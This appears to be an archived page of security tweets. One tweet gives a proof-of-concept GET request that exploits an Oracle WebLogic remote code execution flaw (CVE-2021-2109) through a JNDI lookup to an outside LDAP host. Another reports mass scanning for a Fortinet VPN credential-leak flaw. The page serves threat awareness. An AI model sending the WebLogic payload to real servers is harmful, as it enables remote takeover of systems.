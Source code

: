 
# wugeej
**https://twitter.com/wugeej/status/1353565699864633344 _at 2021-01-25 04:49:45_**
<blockquote>
#Oracle WebLogic Server RCE (CVE-2021-2109)

[PoC]
GET /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&amp;_nfpb=true&amp;JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(-ldap://192.168.0;[Semicolon]👈10:1389/5r5mu7;AdminServer-)

https://t.co/S875IxhzFa https://t.co/h2REYhG9Yj
</blockquote>

* http://packetstormsecurity.com/files/161053/Oracle-WebLogic-Server-14.1.1.0-Remote-Code-Execution.html

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EsjUKslUcAExQIh.jpg" alt="http://pbs.twimg.com/media/EsjUKslUcAExQIh.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1353458688942432262 _at 2021-01-24 21:44:32_**
<blockquote>
Mass scanning activity detected from 81.218.45.224 (🇮🇱) targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext. #threatintel https://t.co/9HCNq52ypj
</blockquote>
